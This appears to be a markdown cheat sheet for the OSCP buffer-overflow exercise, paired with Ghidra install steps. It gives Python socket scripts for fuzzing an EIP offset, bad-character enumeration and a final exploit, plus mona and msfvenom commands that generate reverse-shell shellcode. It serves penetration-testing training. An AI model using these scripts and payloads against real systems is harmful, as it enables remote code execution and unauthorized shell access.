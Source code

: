 # PWN




## Ghidra

Install:

* [https://ghidra-sre.org/](https://ghidra-sre.org/)

```
$ mv /opt/tor-browser/Browser/Downloads/ghidra*.zip ~/tools
$ cd ~/tools && unzip ghidra*.zip && rm ghidra*.zip && mv ghidra* ghidra && cd -
$ sudo apt install openjdk-11-jdk
```




## OSCP BOF Cheatsheet

All you need to know about OSCP BOF challenge. A perfect example for practice - [here](https://www.vulnhub.com/entry/brainpan-1,51/) on VulnHub, report sample - [here](https://github.com/chvancooten/OSCP-MarkdownReportingTemplates/blob/master/Examples/Example%20Report.pdf).



### 1. Determine EIP Offset

Generate unique pattern and feed it to the application:

```
$ msf-pattern_create -l 5000
$ python3 bof_send_pattern.py
```

```python
#!/usr/bin/env python3
# bof_send_pattern.py

import socket

buf = b'<UNIQUE_PATTERN>'
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```

Calculate the offset from buffer to EIP overwrite point:

```
$ msf-pattern_offset -l 5000 -q <EIP_VALUE>
[*] Exact match at offset <EIP_OFFSET>
```



### 2. Confirm BOF

Confirm that you actually can control EIP value - if true it will be overwritten with `D34DC0D3`:

```
$ python3 bof_confirm.py
```

```python
#!/usr/bin/env python3
# bof_confirm.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 16

buf = junk + eip + offset
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```



### 3. Enumerate Bad Characters

Send all the byte values to the application. Then in [Immunity Debugger](https://www.immunityinc.com/products/debugger/) right click on ESP → "Follow in Dump", and check what characters are missing or misinterpreted - they are the **bad characters** that should be excluded when generating the shellcode:

```
$ python3 bof_bad_chars.py
```

```python
#!/usr/bin/env python3
# bof_bad_chars.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4

badchars = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
#badchars = '\x00'

buf = junk + eip + offset + badchars
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```



### 4. Build the Exploit


#### I. Find a Return Address

List all loaded libraries in process memory space with [mona](https://github.com/corelan/mona):

```
!mona modules
```

Choose a module with no memory protections enabled.

Look for `jmp esp` instruction in that module:

```
$ msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
Or
nasm > call esp
00000000  FFD4              call esp

!mona find -s "\xff\xe4" -m "application.exe"
```

Found pointer is the needed value for EIP to force the execution flow into malicious shellcode.


#### II. Generate a Shellcode

Build a shellcode providing bad characters set from (3):

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -e x86/shikata_ga_nai -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00"
```



### 5. Exploit!

Start nc listener, feed the shellcode to the application and catch your shell:

```
$ python3 bof_exploit.py
```

```python
#!/usr/bin/env python3
# bof_exploit.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4
nops = b'\x90' * 10

buf = junk + eip + offset + nops
buf += b"<SHELLCODE>"
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```
